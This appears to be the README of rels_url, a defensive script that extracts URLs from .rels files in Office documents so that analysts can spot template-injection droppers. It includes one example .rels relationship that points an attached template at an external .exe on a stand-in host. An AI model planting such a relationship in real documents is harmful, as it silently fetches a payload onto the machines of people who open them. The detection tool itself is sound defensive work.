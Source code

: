 # rels_url
Office 2007+ Relational links URL extractor  

rels_url is a script that parses post 2007 or newer Micsocoft Office documents (e.g. docx, xlsx, pptx), to reveal URLs located in .rels files.  

**What is a RELS file?**  
Files that contain the .rels file extension are relationship files. These files contain information about how the parts of different Microsoft Office documents fit together. This information is also referred to as relationship parts.

RELS files serve as markers for the documents that they pertain to. They allow the various Microsoft Office applications to utilize the information in one file so that it can be used in another file.

The RELS file format is only compatible with the more recent versions of the Microsoft Office applications which support Open Office XML documents. The RELS files are saved in the directory of the Open Office XML document.

**How threat actors use the RELS files for malicious purposes**  
Threat actors can use the RELS file to access URLs and download a dropper file. This tactic is very sneaky since the .rels files are read when a document is opened and before the user can interact with the document. The user is not prompted to allow the URL to be accessed.  

**Example of a .rels file**  
\<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
\<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">\<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="https://sample.com/sample1/sample2/file.exe" TargetMode="External">\<Relationships>  

**To Use:**  
rels_url.py  file.docx

*The output will list the folder and file the URL is located in:*  

**Sample Output**  
 C:\Users\cyb3rw01f>rels_url.py D:\rels_docx

_rels/.rels

word/_rels/document.xml.rels

word/_rels/settings.xml.rels  
"https://sample.com/sample1/sample2/file.exe"

customXml/_rels/item1.xml.rels

customXml/_rels/item2.xml.rels

customXml/_rels/item3.xml.rels

customXml/_rels/item4.xml.rels
